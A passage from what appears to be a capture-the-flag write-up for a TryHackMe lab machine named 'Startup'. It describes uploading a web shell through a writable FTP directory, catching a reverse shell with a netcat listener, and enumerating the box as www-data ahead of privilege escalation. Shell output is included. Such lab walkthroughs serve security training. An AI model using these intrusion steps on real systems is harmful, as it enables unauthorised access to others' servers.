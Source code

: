I was unable to add to the initial directory however once I changed to the 'ftp' directory I was able to successfully upload the web shell script. Now I just need to navigate to the file in my browser.

![webshell](/assets/images/startup/webshell.png)

We have a shell!

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [(VPN IP)] from (UNKNOWN) [10.10.27.29] 48764
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:29:08 up 31 min,  0 users,  load average: 0.00, 1.01, 1.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We only have a limited shell as www-data so the next step is to enumerate the system to escalate privileges.

```highlight
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -lah
total 100K
drwxr-xr-x  25 root     root     4.0K Nov 21 10:58 .
drwxr-xr-x  25 root     root     4.0K Nov 21 10:58 ..
drwxr-xr-x   2 root     root     4.0K Sep 25 08:12 bin
drwxr-xr-x   3 root     root     4.0K Sep 25 08:12 boot
drwxr-xr-x  16 root     root     3.5K Nov 21 10:58 dev
drwxr-xr-x  96 root     root     4.0K Nov 12 05:08 etc
drwxr-xr-x   3 root     root     4.0K Nov 12 04:53 home
drwxr-xr-x   2 www-data www-data 4.0K Nov 12 04:53 incidents
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root     4.0K Sep 25 08:22 lib
drwxr-xr-x   2 root     root     4.0K Sep 25 08:10 lib64
drwx------   2 root     root      16K Sep 25 08:12 lost+found
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 media
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 mnt
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 opt
dr-xr-xr-x 127 root     root        0 Nov 21 10:57 proc
-rw-r--r--   1 www-data www-data  136 Nov 12 04:53 recipe.txt
drwx------   4 root     root     4.0K Nov 12 04:54 root
drwxr-xr-x  25 root     root      920 Nov 21 11:20 run
drwxr-xr-x   2 root     root     4.0K Sep 25 08:22 sbin
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 snap
drwxr-xr-x   3 root     root     4.0K Nov 12 04:52 srv
dr-xr-xr-x  13 root     root        0 Nov 21 11:31 sys
drwxrwxrwt   7 root     root     4.0K Nov 21 11:31 tmp
drwxr-xr-x  10 root     root     4.0K Sep 25 08:09 usr
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 vagrant
drwxr-xr-x  14 root     root     4.0K Nov 12 04:52 var
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
$ 
```

